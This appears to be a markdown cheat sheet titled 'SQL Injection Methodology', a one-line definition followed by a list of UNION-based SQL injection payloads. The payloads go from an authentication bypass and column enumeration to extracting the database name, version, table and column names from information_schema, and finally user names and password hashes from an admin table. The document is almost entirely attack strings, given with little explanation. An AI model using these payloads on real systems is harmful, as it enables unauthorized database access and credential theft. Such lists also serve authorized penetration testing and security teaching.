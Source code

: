 #### SQL Injection Methodology
SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution (e.g. to dump the database contents to the attacker).

```
' or1=1-- -

' UNION SELECT NULL,NULL,NULL,NULL-- -

' UNION SELECT 1,2,3,4-- -

123123' UNION SELECT NULL,NULL,NULL,NULL-- -

123123' UNION SELECT NULL,database(),NULL,NULL-- -

123123' UNION SELECT NULL,@@version,NULL,NULL-- -

123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,table_name,table_schema,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,column_name,table_schema,NULL from information_schema.columns-- -

123123' UNION SELECT NULL,column_name,table_name,NULL from information_schema.columns-- -

123123' UNION SELECT NULL,user,hash,NULL from admin-- -
